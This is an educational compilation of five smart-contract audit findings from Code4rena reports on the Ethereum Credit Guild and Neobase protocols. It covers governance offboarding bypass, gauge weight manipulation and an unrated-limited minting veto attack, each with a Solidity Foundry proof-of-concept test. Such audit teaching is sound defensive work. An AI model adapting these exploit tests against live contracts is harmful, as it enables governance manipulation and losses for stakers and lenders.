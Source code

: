 # ETAAcademy-Adudit: 1. DAO

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>01. DAO</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>Governance</th>
          <td>DAO</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Eta](https://twitter.com/pwhattie), looking forward to your joining

## 1. [Medium] Re-triggering the canOffboard[term] flag to bypass the DAO vote of the lending term offboarding mechanism

### Offboarding lending term

- Summary: The vulnerability allows an attacker to repeatedly trigger offboarding a re-onboarding lending term, bypassing the DAO vote offboarding mechanism. Even after the term is offboarded and cleaned up, the attacker can trigger another offboarding vote before the poll ends, to re-trigger the `canOffboard[term]` flag. This enables the attacker to force offboarding of the re-onboarded term at any time, overriding the DAO vote.

- Impact & Recommendation: The attack not only manipulates offboarding but also triggers silent auctions for existing loans. If a loan fails to attract bids, causing a loss, stakers who voted for the term via the SurplusGuildMinter contract are slashed, impacting both borrowers and stakers significantly. Prevent the offboarding poll from reactivating the `canOffboard[term]` flag after the lending term cleanup, or end the poll if the term has been cleaned up.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-06-re-triggering-the-canoffboardterm-flag-to-bypass-the-dao-vote-of-the-lending-term-offboarding-mechanism) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

    function testPoCBreakingDaoVoteOffboarding() public {
        // Prepare for Attacker
        address Attacker = address(1);
        guild.mint(Attacker, 1);
        vm.prank(Attacker);
        guild.delegate(Attacker);
        // Prepare for Bob
        guild.mint(bob, _QUORUM);
        vm.startPrank(bob);
        guild.delegate(bob);
        uint256 POLL_DURATION_BLOCKS = offboarder.POLL_DURATION_BLOCKS();
        uint256 snapshotBlock = block.number;
        uint256 OFFBOARDING_POLL_END_BLOCK = snapshotBlock + POLL_DURATION_BLOCKS;
        // Bob proposes an offboarding of the term
        assertEq(guild.isGauge(address(term)), true);
        offboarder.proposeOffboard(address(term));
        // Next 1 day
        vm.roll(block.number + 6646); // 1 day
        vm.warp(block.timestamp + 6646 * 13);
        assertLe(block.number, OFFBOARDING_POLL_END_BLOCK);
        vm.expectRevert("LendingTermOffboarding: quorum not met");
        offboarder.cleanup(address(term));
        // Bob votes for offboarding the term and executes the offboarding (he has a sufficient voting weight)
        assertEq(guild.isGauge(address(term)), true);
        assertEq(offboarder.canOffboard(address(term)), false);
        offboarder.supportOffboard(snapshotBlock, address(term));
        offboarder.offboard(address(term));
        assertEq(guild.isGauge(address(term)), false);
        assertEq(offboarder.canOffboard(address(term)), true);
        // Cannot clean up because loans are active
        vm.expectRevert("LendingTermOffboarding: not all loans closed");
        offboarder.cleanup(address(term));
        // Next 1 day
        vm.roll(block.number + 6646); // 1 day
        vm.warp(block.timestamp + 6646 * 13);
        assertLe(block.number, OFFBOARDING_POLL_END_BLOCK);
        // Get enough CREDIT to pack back interests
        vm.stopPrank();
        uint256 debt = term.getLoanDebt(aliceLoanId);
        credit.mint(alice, debt - aliceLoanSize);
        // Alice closes loan
        vm.startPrank(alice);
        credit.approve(address(term), debt);
        term.repay(aliceLoanId);
        vm.stopPrank();
        // Clean up the term
        assertEq(psm.redemptionsPaused(), true);
        assertEq(offboarder.nOffboardingsInProgress(), 1);
        offboarder.cleanup(address(term));
        assertEq(psm.redemptionsPaused(), false);
        assertEq(offboarder.nOffboardingsInProgress(), 0);
        assertEq(offboarder.canOffboard(address(term)), false); // The canOffboard[term] flag has been reset
        assertEq(core.hasRole(CoreRoles.RATE_LIMITED_CREDIT_MINTER, address(term)), false);
        assertEq(core.hasRole(CoreRoles.GAUGE_PNL_NOTIFIER, address(term)), false);
        // Attacker votes for offboarding the term to re-trigger the canOffboard[term] flag again
        vm.startPrank(Attacker);
        assertEq(offboarder.canOffboard(address(term)), false);
        offboarder.supportOffboard(snapshotBlock, address(term));
        assertEq(offboarder.canOffboard(address(term)), true); // Attacker has re-triggered the canOffboard[term] flag
        vm.stopPrank();
        // Next 10 days
        // Offboarding poll expired
        vm.roll(block.number + 66460); // 10 days
        vm.warp(block.timestamp + 66460 * 13);
        assertGt(block.number, OFFBOARDING_POLL_END_BLOCK);
        // The term is re-onboarded
        assertEq(guild.isGauge(address(term)), false);
        guild.addGauge(1, address(term));
        assertEq(guild.isGauge(address(term)), true);
        // Next 30 days
        vm.roll(block.number + 199380); // 30 days
        vm.warp(block.timestamp + 199380 * 13);
        assertEq(guild.isGauge(address(term)), true);
        assertEq(psm.redemptionsPaused(), false);
        assertEq(offboarder.nOffboardingsInProgress(), 0);
        // Attacker offboards the term by overriding the DAO vote offboarding mechanism
        vm.startPrank(Attacker);
        offboarder.offboard(address(term));
        assertEq(guild.isGauge(address(term)), false);
        assertEq(psm.redemptionsPaused(), true);
        assertEq(offboarder.nOffboardingsInProgress(), 1);
    }

  ```

  </details>

## 2. [Medium] The gauge status wasn’t checked before reducing the user’s gauge weight.

### Reduce weight to transfer loss

- Summary: In the event of any loss triggered by **`ProfitManager#notifyPnL()`**, all staked guild tokens on the lending term will be entirely slashed through **`GuildToken#notifyGaugeLoss()`**, with termSurplusBuffer[gauge] depleting and donating to surplusBuffer. Loss will first decrease from surplusBuffer, and if surplusBuffer is insufficient, the remaining loss will reduce the creditMultiplier for each credit token. A term can be offboarded if deemed unsafe, pausing the redemption function of the corresponding SimplePSM. Once offboarded, potential losses are distributed to all credit token holders, as exiting in advance is not possible. However, guild holders can reduce their weight on the offboarded term, transferring potential losses to other holders.

- Impact & Recommendation: Preventing gauge weight deprecation upon offboarding a lending term is advisable, particularly with surplus GUILD minter, as it ensures protection for passive lenders by retaining surplus buffer capital that may otherwise escape.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-17-the-gauge-status-wasnt-checked-before-reducing-the-users-gauge-weight) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity
    function testOffboardTermAndDecrementGauge() public {
        //@audit-info term2 is deployed
        LendingTerm term2 = LendingTerm(Clones.clone(address(new LendingTerm())));
        term2.initialize(
            address(core),
            LendingTerm.LendingTermReferences({
                profitManager: address(profitManager),
                guildToken: address(guild),
                auctionHouse: address(auctionHouse),
                creditMinter: address(rlcm),
                creditToken: address(credit)
            }),
            LendingTerm.LendingTermParams({
                collateralToken: address(collateral),
                maxDebtPerCollateralToken: _CREDIT_PER_COLLATERAL_TOKEN,
                interestRate: _INTEREST_RATE,
                maxDelayBetweenPartialRepay: 0,
                minPartialRepayPercent: 0,
                openingFee: 0,
                hardCap: _HARDCAP
            })
        );
        vm.startPrank(governor);
        core.grantRole(CoreRoles.RATE_LIMITED_CREDIT_MINTER, address(term2));
        core.grantRole(CoreRoles.GAUGE_PNL_NOTIFIER, address(term2));
        vm.stopPrank();
        //@audit-info active term2, which has the same gauge type with term1
        guild.addGauge(1, address(term2));
        //@audit-info mint 2e18 guild token to carol
        guild.mint(carol, 2e18);
        vm.startPrank(carol);
        guild.incrementGauge(address(term), 1e18);
        guild.incrementGauge(address(term2), 1e18);
        vm.stopPrank();
        // prepare (1)
        guild.mint(bob, _QUORUM);
        vm.startPrank(bob);
        guild.delegate(bob);
        uint256 snapshotBlock = block.number;
        //@audit-info bob propose to offboard term
        offboarder.proposeOffboard(address(term));
        vm.roll(block.number + 1);
        vm.warp(block.timestamp + 13);
        //@audit-info term is able to be offboarded with enough votes.
        offboarder.supportOffboard(snapshotBlock, address(term));
        assertEq(offboarder.polls(snapshotBlock, address(term)), _QUORUM + 1);
        assertEq(offboarder.canOffboard(address(term)), true);
        assertEq(guild.isGauge(address(term)), true);
        assertEq(psm.redemptionsPaused(), false);
        assertEq(offboarder.nOffboardingsInProgress(), 0);
        offboarder.offboard(address(term));
        //@audit-info term is offboarded
        assertEq(guild.isGauge(address(term)), false);
        //@audit-info the redemption function is paused, no one can redeem their credit token
        assertEq(psm.redemptionsPaused(), true);
        assertEq(offboarder.nOffboardingsInProgress(), 1);
        vm.stopPrank();
        assertEq(guild.getUserGaugeWeight(carol, address(term)), 1e18);
        vm.prank(carol);
        //@audit-info however, carol can decrement their gauge weight on term
        guild.decrementGauge(address(term), 1e18);
        assertEq(guild.getUserGaugeWeight(carol, address(term)), 0);
    }

  ```

  </details>

## 3. [Medium] RateLimitedMinter isn’t used by SimplePSM resulting in Governance attacks

### Use rate limiter to mint or burn token

- Summary: ProfitManager and SimplePSM contracts don't use rate limiter so that the `RateLimitedMinter` buffer is never replenished. Attacker mints gUSDC tokens in the PSM contract without rate limiter, then using them to take malicious voting action in GuildVetoGovernor and cancel actions in the queue quickly without any consequences, because `ProfitManager.creditMultiplier` doesn’t decline.

- Impact & Recommendation: Use rate limiter across all contracts in the protocol when minting or burning Credit and Guild tokens.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-21-ratelimitedminter-isnt-used-by-simplepsm-resulting-in-governance-attacks) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity
    // SPDX-License-Identifier: GPL-3.0-or-later
    pragma solidity 0.8.13;
    import {Test} from "@forge-std/Test.sol";
    import {Core} from "@src/core/Core.sol";
    import {CoreRoles} from "@src/core/CoreRoles.sol";
    import {MockERC20} from "@test/mock/MockERC20.sol";
    import {SimplePSM} from "@src/loan/SimplePSM.sol";
    import {GuildToken} from "@src/tokens/GuildToken.sol";
    import {CreditToken} from "@src/tokens/CreditToken.sol";
    import {ProfitManager} from "@src/governance/ProfitManager.sol";
    import {ProfitManager} from "@src/governance/ProfitManager.sol";
    import {MockLendingTerm} from "@test/mock/MockLendingTerm.sol";
    import {IGovernor} from "@openzeppelin/contracts/governance/IGovernor.sol";
    import {GuildVetoGovernor} from "@src/governance/GuildVetoGovernor.sol";
    import {GuildTimelockController} from "@src/governance/GuildTimelockController.sol";
    import "@forge-std/console.sol";
    contract Poc4 is Test {
        Core private core;
        ProfitManager private profitManager;
        CreditToken credit;
        GuildToken guild;
        MockERC20 private pegToken;
        SimplePSM private psm;
        uint256 private constant _TIMELOCK_MIN_DELAY = 12345;
        GuildTimelockController private timelock;
        GuildVetoGovernor private vetoGovernor;
        uint256 __lastCallValue = 0;
        // From deployment script!

        uint256 private constant _VETO_QUORUM = 5_000_000e18;
        function setUp() public {
            vm.warp(1679067867);
            vm.roll(16848497);
            core = new Core();
            profitManager = new ProfitManager(address(core));
            credit = new CreditToken(address(core), "gUSDC", "gUSDC");
            guild = new GuildToken(address(core), address(profitManager));
            pegToken = new MockERC20(); // USDC
            pegToken.setDecimals(6);
            psm = new SimplePSM(
                address(core),
                address(profitManager),
                address(credit),
                address(pegToken)
            );
            timelock = new GuildTimelockController(
                address(core),
                _TIMELOCK_MIN_DELAY
            );
            // VetoGovernor for gUSDC
            vetoGovernor = new GuildVetoGovernor(
                address(core),
                address(timelock),
                address(credit),
                _VETO_QUORUM // 5Mil gUSDC
            );
            core.grantRole(CoreRoles.CREDIT_MINTER, address(this));
            core.grantRole(CoreRoles.CREDIT_MINTER, address(psm));
            core.grantRole(CoreRoles.CREDIT_GOVERNANCE_PARAMETERS, address(this));
            core.createRole(CoreRoles.TIMELOCK_EXECUTOR, CoreRoles.GOVERNOR);
            core.grantRole(CoreRoles.TIMELOCK_EXECUTOR, address(0));
            core.createRole(CoreRoles.TIMELOCK_CANCELLER, CoreRoles.GOVERNOR);
            core.grantRole(CoreRoles.TIMELOCK_CANCELLER, address(vetoGovernor));
            core.createRole(CoreRoles.TIMELOCK_PROPOSER, CoreRoles.GOVERNOR);
            core.grantRole(CoreRoles.TIMELOCK_PROPOSER, address(this));
            core.renounceRole(CoreRoles.GOVERNOR, address(this));
            credit.setMaxDelegates(1);
        }
        function __dummyCall(uint256 val) external {
            __lastCallValue = val;
        }
        function _queueDummyTimelockAction(
            uint256 number
        ) internal returns (bytes32) {
            address[] memory targets = new address[](1);
            targets[0] = address(this);
            uint256[] memory values = new uint256[](1);
            bytes[] memory payloads = new bytes[](1);
            payloads[0] = abi.encodeWithSelector(
                Poc4.__dummyCall.selector,
                number
            );
            bytes32 predecessor = bytes32(0);
            bytes32 salt = keccak256(bytes("dummy call"));
            timelock.scheduleBatch(
                targets,
                values,
                payloads,
                predecessor,
                salt,
                _TIMELOCK_MIN_DELAY
            );
            bytes32 timelockId = timelock.hashOperationBatch(
                targets,
                values,
                payloads,
                0,
                salt
            );
            return timelockId;
        }
        function test_poc() public {
            address Alice = address(100);
            // Schedule an action in the timelock, Alice will veto it.
            bytes32 timelockId = _queueDummyTimelockAction(12345);
            // Afluent Alice has 6Mil of USDC and mints gUSDC in PSM
            // PSM isn't rate-limited (there is no cap)!
            pegToken.mint(Alice, 6_000_000e6);
            vm.startPrank(Alice);
            pegToken.approve(address(psm), 6_000_000e6);
            psm.mint(Alice, 6_000_000e6);

            // Alice has enough voting power!
            require(credit.balanceOf(Alice) > vetoGovernor.quorum(0));
            credit.delegate(Alice);
            // Alice creates a Veto proposal
            uint256 proposalId = vetoGovernor.createVeto(timelockId);
            vm.roll(block.number + 1);
            vm.warp(block.timestamp + 10);
            // Alice cast a vote against
            vetoGovernor.castVote(proposalId, uint8(GuildVetoGovernor.VoteType.Against));
            vm.roll(block.number + 1);
            vm.warp(block.timestamp + 10);
            (
                uint256 againstVotes,
                uint256 forVotes,
                uint256 abstainVotes
            ) = vetoGovernor.proposalVotes(
                proposalId
            );
            // There is a Quorum, Alice can execute Veto proposal
            require(againstVotes > vetoGovernor.quorum(0));
            vetoGovernor.executeVeto(timelockId);
            vm.stopPrank();
        }
    }

  ```

  </details>

## 4. [High] If a gauge that a user has voted for gets removed, their voting power allocated for that gauge will be lost

### Vote requirement for gauge

- Summary: The GaugeController, based on Curve DAO's Vyper implementation, allows users to vote for incentive allocation using the vote_for_gauge_weights() function. However, governance can remove gauges, preventing further voting but leaving existing users' voting power intact. Specifically, a new require statement has been added to check if the gauge type is greater than 0, but this fix doesn't address the issue effectively because the gauge type for a nonexistent gauge is always 0.

- Impact & Recommendation: Remove the requirement checking for nonzero gauge types at the specified address to allow users to reclaim their votes from removed gauges.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-neobase#h-01-if-a-gauge-that-a-user-has-voted-for-gets-removed-their-voting-power-allocated-for-that-gauge-will-be-lost) & [Report](https://code4rena.com/reports/2024-03-neobase)

  <details><summary>POC</summary>

  ```solidity
      function testLostVotingPower() public {
        // prepare
        uint256 v = 10 ether;
        vm.deal(gov, v);
        vm.startPrank(gov);
        ve.createLock{value: v}(v);
        // add gauges
        gc.add_gauge(gauge1, 0);
        gc.add_type("", 0);
        gc.add_gauge(gauge2, 1);
        // all-in on gauge1
        gc.vote_for_gauge_weights(gauge1, 10000);
        // governance removes gauge1
        gc.remove_gauge_weight(gauge1);
        gc.remove_gauge(gauge1);
        // cannot vote for gauge2
        vm.expectRevert("Used too much power");
        gc.vote_for_gauge_weights(gauge2, 10000);
        // cannot remove vote for gauge1
        vm.expectRevert("Gauge not added"); // @audit remove after mitigation
        gc.vote_for_gauge_weights(gauge1, 0);
        // cannot vote for gauge2 (to demonstrate again that voting power is not removed)
        vm.expectRevert("Used too much power");  // @audit remove after mitigation
        gc.vote_for_gauge_weights(gauge2, 10000);
    }

    function testLostVotingPower() public {
        // prepare
        uint256 v = 10 ether;
        vm.deal(gov, v);
        vm.startPrank(gov);
        ve.createLock{value: v}(v);
        // add gauges
        gc.add_gauge(gauge1, 0);
        gc.change_gauge_weight(gauge1, 100);
        gc.add_type("", 100);
        gc.add_gauge(gauge2, 1);
        gc.change_gauge_weight(gauge2, 100);
        // all-in on gauge1
        gc.vote_for_gauge_weights(gauge1, 10000);
        // governance removes gauge1
        gc.remove_gauge_weight(gauge1);
        gc.remove_gauge(gauge1);
        // cannot vote for gauge2
        vm.expectRevert("Used too much power");
        gc.vote_for_gauge_weights(gauge2, 10000);
        // cannot remove vote for gauge1
        vm.expectRevert("Gauge not added"); // @audit remove after mitigation
        gc.vote_for_gauge_weights(gauge1, 0);
        // cannot vote for gauge2 (to demonstrate again that voting power is not removed)
        vm.expectRevert("Used too much power");  // @audit remove after mitigation
        gc.vote_for_gauge_weights(gauge2, 10000);
    }


  ```

  </details>

## 5. [Medium] Issue from previous audit still present: Gauge can have bigger weight than was intended by protocol

### Change gauge weight

- Summary: Users can exploit the "change_gauge_weight" function by monitoring the mempool for calls and front-running them to remove their voting power before the change occurs. This allows them to manipulate the gauge's weight, increasing it beyond the intended value set by governance.

- Impact & Recommendation: Remove `change_gauge_weight` function.
  <br> 🐬: [Source](hhttps://code4rena.com/reports/2024-03-neobase#m-03-issue-from-previous-audit-still-present-gauge-can-have-bigger-weight-than-was-intended-by-protocol) & [Report](https://code4rena.com/reports/2024-03-neobase)

  <details><summary>POC</summary>

  ```solidity
      /// @notice Allows governance to overwrite gauge weights
    /// @param _gauge Gauge address
    /// @param _weight New weight
    function change_gauge_weight(address _gauge, uint256 _weight) public onlyGovernance {
        _change_gauge_weight(_gauge, _weight);
    }

  ```

  </details>
